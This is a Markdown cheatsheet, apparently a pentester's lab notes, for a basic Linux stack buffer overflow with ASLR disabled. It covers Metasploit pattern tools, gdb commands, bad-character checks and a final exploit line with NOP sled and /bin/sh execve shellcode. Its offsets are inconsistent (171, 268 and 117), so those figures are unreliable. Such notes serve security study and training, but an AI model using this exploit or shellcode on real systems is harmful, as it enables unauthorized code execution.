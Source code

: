 # Simple
- Disable ASLR
1. Determine Buffer Size till EIP overflows with A
	- Via fuzzing
	- Buffer Size: 200
2.  Create msf-pattern
	```
	msf-pattern_create -l 200
	Pattern:
	run $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')
	```
3. Use `env`
	```
	# do not use ./
	env - gdb /path/to/file
	show env
	unset env LINES
	unset env COLUMNS
	show env
	```
4.  Determine Pattern Address & Return Address
	```
	# Determine Return Address 
	# Address must not have badChars
	i r # Look at ESP
	i r esp
	x/40x $esp
	
	# Determine Pattern Address 
	# Or you can just look at where program crashed <0xADDRESS in ?? ()>
	i r eip
	```
	- Pattern Address: `0x41376641`
	- Return Address: `0xbffff630`
		- Little Endian: `\x30\xf6\xff\xbf`
5. Determine EIP offset
	```
	msf-pattern_offset -q 0x41376641
	```
	- EIP offset: 171
6. Ensure EIP offset
	```
	run  $(python -c 'print "A" * 171 + "B" * 4 + "C" * 200')
	```
7. Determine badChars 
	- Unable to use found returnAdd yet, unless we are sure it does not contain badChars `\x00`
	```
	run $(python -c 'print "A" * 268 + "B" * 4 + "badChars"')
	x/40x $esp
	
	buffer = "A" * offset + "B" * 4 + badChars
	```
	- badChars: ``
8. [[pentest/Cheatsheet/Linux/Linux BOF/Shellcode]]
	```
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
	```
9. Exploit
	```
	env - /path/to/file $(python -c 'print "A" * 117  + "\x30\xf6\xff\xbf" + "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
	
	padding + returnAdd + NOP + shellcode
	```
	- If it does not work, play around with the returnAdd & try to use different shell codes
		- Check if returnAdd has any badchars `\x00\x20`
		- eg; if `\x20\x30\x40\x50` is your return add, but `\x20` is a bad char, use `\x21` instead
		- If there is make sure to increase NOP size
		